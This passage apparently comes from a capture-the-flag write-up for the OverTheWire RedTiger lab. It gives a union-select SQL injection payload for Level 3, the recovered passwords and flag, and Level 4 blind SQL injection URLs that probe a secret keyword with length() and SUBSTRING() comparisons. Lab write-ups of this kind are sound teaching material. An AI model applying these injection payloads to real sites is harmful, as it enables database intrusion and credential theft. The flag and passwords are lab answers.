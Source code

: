 ```php
        return false;
    }
?>
```

c. Then encypt the command as

```php
echo(encrypt('\' union select 1,username,3,4,5,password,7 from level3_users where username=\'Admin\'#'));
```

```bash
admin password: thisisaverysecurepasswordEEE5rt
level 4 password: put_the_kitten_on_your_head
flag: a707b245a60d570d25a0449c2a516eca
```

Note: use the php version 5.6.19

## Level 4: Blind Sql Injection

a. Find the number of characters present in the column of keyword using length function in sql

```bash
[https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)>20--](https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)=21--)
[https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)>25--](https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)=21--)
[https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)<23--](https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)=21--)
[https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)<22--](https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)=21--)
[https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)=21--](https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+length(keyword)=21--)
```

b. Find the keyword guessing each word or letter.

```bash
**https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+SUBSTRING(keyword,1,1)>"a"--
https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+SUBSTRING(keyword,1,1)>"j"--
https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+SUBSTRING(keyword,1,1)>"m"--**
**https://redtiger.labs.overthewire.org/level4.php?id=1+union+select+null,keyword+from+level4_secret+where+SUBSTRING(keyword,1,1)="k"--**
```

